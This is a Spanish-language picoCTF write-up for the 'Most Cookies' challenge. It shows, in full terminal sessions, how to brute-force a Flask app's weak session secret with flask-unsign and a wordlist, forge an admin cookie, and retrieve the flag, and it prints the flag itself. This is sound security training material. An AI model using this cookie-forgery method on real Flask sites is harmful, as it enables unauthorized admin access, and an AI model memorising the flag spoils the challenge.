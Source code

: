 ### Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)

Hints:
1. How secure is a flask cookie?

### Solución
Se descarga el archivo:

```
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ wget 'https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py'                                                                        
--2025-04-01 21:12:01--  https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2021 (2.0K) [application/octet-stream]
Saving to: ‘server.py’

server.py             100%[======================>]   1.97K  --.-KB/s    in 0s      

2025-04-01 21:12:01 (63.7 MB/s) - ‘server.py’ saved [2021/2021]

                                                                                     
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-yO-w.UjcS6nvpzo2_J3fxYKLy97txBDY
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-yO-w.UjcS6nvpzo2_J3fxYKLy97txBDY
                                                                                     
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-yO-w.UjcS6nvpzo2_J3fxYKLy97txBDY | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input
                                                                                     
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ ls                  
server.py
```


Decodificamos la cookie.
Creamos un nuevo archivo con todas las cookies donde se debe reemplazar  "," por un salto de linea \n y guardamos el archivo.
```
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ cat server.py       
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(_name_)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ cat cookies.txt 
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

```

Instalamos flask-unsign creando una carpeta y activando un ambiente virtual para instalar la herramienta.
Y cuando se descarga ahora si se puede descargar la herramienta sin tener problema con las referencias del sistema:
```
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ sudo apt install python3-venv        
python3-venv is already the newest version (3.12.6-1).
python3-venv set to manually installed.
Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 0
                                                                                     
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ python3 -m venv ~/.venv  
                                                                                     
┌──(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ source ~/.venv/bin/activate
                                                                                     
┌──(.venv)─(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ python3 -m pip install flask-unsign
Successfully installed Jinja2-3.1.6 blinker-1.9.0 certifi-2025.1.31 charset-normalizer-3.4.1 click-8.1.8 flask-3.1.0 flask-unsign-1.2.1 idna-3.10 itsdangerous-2.2.0 markupsafe-3.0.2 requests-2.32.3 urllib3-2.3.0 werkzeug-3.1.3
```


Tomar la cookie y realizar el ataque de fuerza bruta. Observamos la palabra con la que se firmo la cookie 'gingersnap':
```
┌──(.venv)─(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-yO-w.UjcS6nvpzo2_J3fxYKLy97txBDY" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'
                                                                                     
┌──(.venv)─(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret "gingersnap"   
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-yTlQ.XZbRz5UMY6XI09VD1XPCtcC84qc
                                                                                     
┌──(.venv)─(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session=http://mercury.picoctf.net:6259/display"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.                                                                                     
┌──(.venv)─(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-yTlQ.XZbRz5UMY6XI09VD1XPCtcC84qc" | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_5f016958}</code></p>
                                                                                     
┌──(.venv)─(kali㉿kali)-[~/picoCTF/web4/mostcookies]
└─$ curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-yTlQ.XZbRz5UMY6XI09VD1XPCtcC84qc" | grep -oE "picoCTF{.*?}"
picoCTF{pwn_4ll_th3_cook1E5_5f016958}
```

Flag:
picoCTF{pwn_4ll_th3_cook1E5_5f016958}

### Notas adicionales
Flask-unsign es una herramienta que nos permite realizar un ataque de fuerza bruta a la cookie para saber con cual llave fue cifrada.

### Referencias
Flask-unsign
